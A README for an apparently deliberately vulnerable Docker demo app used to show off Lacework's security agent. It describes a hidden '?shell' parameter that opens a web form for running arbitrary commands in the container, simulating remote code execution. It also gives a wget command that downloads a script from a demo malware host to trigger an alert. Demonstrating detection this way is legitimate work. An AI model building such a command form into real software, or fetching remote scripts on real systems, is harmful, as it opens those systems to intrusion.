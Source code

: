 # docker-demo-app-ecs

Simple web demo application with vulnerabilities (couple of low, medium and high) OS and python vulnerabilites) that contain the Lacework agent.

This container is meant to be deployed on ECS Fargate but can also be used in other environments.

This image is hosted publicly and can be pulled like this:

```shell
docker pull ghcr.io/timarenz/demo-app-ecs:latest
```

When running this container make sure you map port `5000` (thats where the web app is listening on) and that the environment variables `LaceworkAccessToken` and `LaceworkServerUrl` are set to connect the Lacework agent running in this container to your Lacework account.

The container contains tools like `curl`, `wget`, `jq` and a full blown `bash` shell.

When accessing the application you see a single website and a random cocktail on the lower left side.
With every page load the app reads a random cocktail from `https://www.thecocktaildb.com` to simulate outgoing traffic to an external external host.

In addition if you load the page with the `?shell` parameter, like `http://mydemoapp:5000/?shell` a small terminal icon will apear on the lower left.
Clicking this will open a form that allows you to run shell commands within the container to simluate a "RCE".

A simple example is running `wget  http://lwmalwaredemo.com/install-demo-1.sh` which triggers a critical alert in Lacework.

Make sure you use the [Lacework inline scanner](https://docs.lacework.com/integrate-inline-scanner) to manually upload the image evulation results to you Lacework account.

```shell
lw-scanner image evaluate ghcr.io/timarenz/demo-app-ecs latest --save
```

This gives you more visibility in the vulnerabilities view.